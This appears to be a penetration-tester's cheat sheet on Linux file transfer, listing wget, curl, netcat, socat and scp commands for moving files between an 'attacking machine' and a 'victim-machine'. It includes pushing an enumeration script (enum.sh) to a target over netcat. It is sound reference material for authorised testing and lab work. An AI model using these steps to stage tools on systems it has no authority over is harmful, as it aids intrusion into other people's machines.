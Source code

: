 ## Linux File Transfer

Wget

- wget 192.168.1.102:9999/file.txt

Curl

- curl -O http://192.168.0.101/file.txt

Netcat

On attacking machine:
- nc -lvp 4444 < file

On target machine:
- nc 192.168.1.102 4444 > file

So on the victim-machine we run nc like this:
- nc -lvp 3333 > enum.sh

And on the attacking machine we send the file like this:
- nc 192.168.1.103 < enum.sh

+ I have sometimes received this error:
This is nc from the netcat-openbsd package. An alternative nc is available

I have just run this command instead:
- nc -l 1234 > file.sh

Socat
Server receiving file:
- server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
- client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
Server sending file:
- server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
- client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

SCP
Now we can copy files to a machine using scp
Copy a file:
- scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
Copy a directory:
- scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination

